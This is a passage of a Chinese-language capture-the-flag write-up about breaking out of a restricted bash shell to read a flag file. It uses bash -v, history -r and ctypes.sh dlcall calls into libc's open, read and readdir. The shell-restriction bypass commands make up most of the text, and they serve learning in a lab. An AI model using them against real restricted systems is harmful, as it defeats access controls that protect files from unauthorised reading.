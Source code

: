 
沒有`cat`等shell utilities，可以考慮用bash內置的讀文件命令，如`read /home/ctf.ray`、`mapfile a < /home/ctf.ray`命令，另外可以`set -v`後`source /home/ctf/flag.ray`。但這些都不奏效，並且可以發現`<`重定向不可用。

之後有至少三個方法讀取flag：

- `bash -v /home/ctf/flag.ray`
- `history -r /home/ctf/flag.ray; history`

### ctypes.sh

另一個比較複雜。補全還能顯示內置命令，其中多了`dlopen`、`dlcall`等非bash自帶的命令。另外通過補全查看`/usr/lib/`下的文件：
```
libcrypto.so.1.0.0*         proof of work使用，sha256
ld-musl-x86_64.so.1*        libc
libseccomp.so.2.2.1*        限制系統調用
libz.so.1@                  libcrypto.so依賴
ld-linux-x86-64.so.2@       libc
libdl.so.2@                 libc
libseccomp.so.2@            限制系統調用
libffi.so.6.0.4*            不知用途
libc.so.6@                  libc
libffi.so.6@                不明用途
libncursesw.so.6*           bash依賴
libz.so.1.2.8*              libcrypto.so依賴
libncursesw.so@             bash依賴
```

`libffi.so`很可疑，也從另一方面佐證了這個bash做過手腳。`dlopen`和`dlcall`等來自fqj1994提到的[ctypes.sh](https://github.com/taviso/ctypes.sh)，這個項目給bash提供了foreign function interface，可以加載動態鏈接庫，執行其中的函數。因此讀取flag的方式很自然：
```
dlcall -n fd -r int open /home/ctf/flag.ray 0
dlcall -n buf -r pointer malloc 100
dlcall -n nread -r int read $fd $buf 100
dlcall write 1 $buf $nread
```

另外，`help`和`set`命令也可以列出`dlopen`和`dlopen`命令。
```
-bash-4.4$ set
......
builtins=([0]="callback" [1]="dlcall" [2]="dlclose" [3]="dlopen" [4]="dlsym" [5]="pack" [6]="unpack")
-bash-4.4$ help
......
 dlcall [-n name] [-a abi] [-r type] [>  source filename [arguments]
 dlclose handle [handle ...]             suspend [-f]
 dlopen [-N|-l] [-t] [-d] [-g] [-n] li>  test [expr]
 dlsym [-n name] [-h handle] symbol      time [-p] pipeline
......
```

不用終端提供的補全功能也可以列目錄：
```bash
dlopen libc.so
dlcall -n dir -r pointer opendir /home/ctf
dlcall -n dirent -r pointer readdir $dir # 跳過第一個
dlcall -n dirent -r pointer readdir $dir # 跳過第二個
dlcall -n dirent -r pointer readdir $dir # 第三個
data=(long long ushort uchar char char char char char char char char char char char char)
unpack $dirent data
echo ${data[@]}
```
